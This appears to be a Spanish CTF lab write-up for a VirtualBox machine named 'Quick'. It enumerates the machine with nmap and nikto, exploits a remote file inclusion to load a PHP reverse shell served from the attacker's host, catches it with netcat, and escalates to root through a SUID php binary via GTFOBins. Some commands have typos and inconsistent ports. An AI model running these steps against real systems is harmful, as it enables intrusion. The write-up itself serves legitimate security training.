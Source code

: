 ## MAQUINA QUICK

Usamos la netdiscover para ver las maquinas conectadas en nuestra red

```console

>netdicover -i eth0 -r 192.x.x.x/24

```

Una vez que tengamos la ip, con nmap vamos a enumerar los puertos y servicios abiertos de la misma.

```console

>nmap -p- -open -sV -sC "ip" -oN TARGET

PORT
80/tcp open http

"STATE SERVICE VERSION
Apache httpd 2.4.41 ((Ubuntu))
l_http-server-header: Apache/2.4.41 (Ubuntu)
l_http-title: Quick Automative
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)"
```

Como tenemos el puerto 80 disponible ingresamos a la pagina web.

Usamos nikto para ver si hay alguna vulnerabilidad en la web.

```console

>nikto -h "ip"

/index.php?page=http://blog.cirt.net/rfiinc.txt ?: Remote File Inclusion (RFI)
```

Tenemos una posible vuln. en la web, se trata de un RFI (remote-file-inclusion).

Aca lo que vamos a hacer es subir una RV (revershell.php) de pentestmokey a la maquina victima creando un servidor python.

```console
python3 -m http.server
```

Seguido nos ponemos en escucha con netcat al puerto que colocamos en la RV.
```console
nc -nlvp 1234
```

Ahora realizamos lo siguiente: 

Vamos a la URL de la pagina y colocamos nuestra ip + la revershell pentest monkey (http://$IP/revershell)(sin la extension).

Bien si todo salio excelente somos el usuarios www-data, ahora realizamos el tratamiento de la tty:

```console
$ script /dev/null -c bash
Script started, file is /dev/null

www-data@host:/$ ^Z
zsh: suspended  nc -nlvp 443

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

Luego vemos que permisos SUID tenemos con el siguiente formato.

```console
find / -user root -perm /4000 2>/dev/null
```
Y como resultado tenemos un archivo:

```console
/usr/bin/php7.0
```

En gtfobins encontramos la manera de escalar priv.
```console
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl exec('/bin/sh', ['-p']);"

```

Y listo somo User root
